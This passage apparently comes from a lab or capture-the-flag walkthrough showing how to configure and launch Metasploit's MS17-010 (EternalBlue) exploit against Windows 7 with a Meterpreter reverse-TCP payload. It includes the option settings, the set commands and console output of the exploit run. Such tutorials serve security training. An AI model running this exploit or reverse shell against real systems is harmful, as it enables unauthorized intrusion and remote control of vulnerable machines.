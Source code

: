 ```rb
                                             ticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matc
                                             hes exploit Target. Only affects
                                             Windows Server 2008 R2, Windows 7
                                             , Windows Embedded Standard 7 tar
                                             get machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploi
                                             t Target. Only affects Windows Se
                                             rver 2008 R2, Windows 7, Windows
                                             Embedded Standard 7 target machin
                                             es.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thr
                                        ead, process, none)
   LHOST     attacking-ip     yes       The listen address (an interface may b
                                        e specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.
```

- Notice the options that have the `Required` field set to `yes`. This means we have to fill in those values for the exploit to be successful. This is pretty simple, and we can set the options by using `set [option] [value]`. For example, we will have to do the following to effectively configure our exploit:
```
msf6 > set RHOSTS target-ip
msf6 > set LHOSTS attcking-ip
```

- With our configurations finished, we can go ahead and run the exploit by using either the `run` command, or the `exploit` command. When we do, we can see the following:

```rb
[*] Started reverse TCP handler on attacking-ip:4444 
[*] target-ip:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] target-ip:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] target-ip:445      - Scanned 1 of 1 hosts (100% complete)
[+] target-ip:445 - The target is vulnerable.
[*] target-ip:445 - Connecting to target for exploitation.
[+] target-ip:445 - Connection established for exploitation.
[+] target-ip:445 - Target OS selected valid for OS indicated by SMB reply
[*] target-ip:445 - CORE raw buffer dump (42 bytes)
[*] target-ip:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] target-ip:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] target-ip:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] target-ip:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] target-ip:445 - Trying exploit with 12 Groom Allocations.
[*] target-ip:445 - Sending all but last fragment of exploit packet
[*] target-ip:445 - Starting non-paged pool grooming
```